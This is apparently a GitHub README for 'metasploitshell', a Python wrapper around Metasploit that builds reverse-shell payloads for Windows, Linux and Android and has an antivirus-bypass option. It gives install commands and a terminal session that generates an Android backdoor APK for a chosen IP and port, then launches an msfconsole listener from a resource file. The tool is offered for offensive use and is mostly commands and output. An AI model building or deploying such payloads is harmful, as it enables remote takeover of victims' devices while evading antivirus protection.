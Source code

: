 # metasploitshell
made by khilesh
# simple reverse shell gerneter tool

# commands
        git clone https://github.com/khilesh114/metasploitshell
        cd metasploitshell
        sudo python3 msv.py

──(codex㉿kali)-[~/Desktop/projects/metasploitshell]
└─$ python3 msv.py
metasploit fremwork
enter ip addres ex 127.0.0.1
enter port ex 8080
windows [1]
linux   [2]
android [3]
antivirus bypass [4]
exit tool  [5]
enter a number :-3

 
                   .___             .__    .___
_____    ____    __| _/______  ____ |__| __| _/
\__  \  /    \  / __ |\_  __ \/  _ \|  |/ __ | 
 / __ \|   |  \/ /_/ | |  | \(  <_> )  / /_/ | 
(____  /___|  /\____ | |__|   \____/|__\____ | 
     \/     \/      \/                      \/ 

Enter ip address :-127.0.0.1
Enter a port nomber  :-8080
[-] No platform was selected, choosing Msf::Module::Platform::Android from the payload
[-] No arch selected, selecting arch: dalvik from the payload
No encoder specified, outputting raw payload
Payload size: 10231 bytes
Saved as: android.apk
Metasploit tip: Save the current environment with the save command, 
future console restarts will use this environment again
                                                  
 _                                                    _
/ \    /\         __                         _   __  /_/ __
| |\  / | _____   \ \           ___   _____ | | /  \ _   \ \
| | \/| | | ___\ |- -|   /\    / __\ | -__/ | || | || | |- -|
|_|   | | | _|__  | |_  / -\ __\ \   | |    | | \__/| |  | |_
      |/  |____/  \___\/ /\ \\___/   \/     \__|    |_\  \___\
=[ metasploit v6.3.42-dev                          ]
+ -- --=[ 2375 exploits - 1232 auxiliary - 416 post       ]
+ -- --=[ 1391 payloads - 46 encoders - 11 nops           ]
+ -- --=[ 9 evasion                                       ]

Metasploit Documentation: https://docs.metasploit.com/

[*] Processing android.txt for ERB directives.
exit msfconsole 
# emsf6 > exit
                                                                                                                          
#┌──(codex㉿kali)-[~/Desktop/projects/metasploitshell]
any error exit msfconsole and run command
# └─$ msfconsole -r android.txt



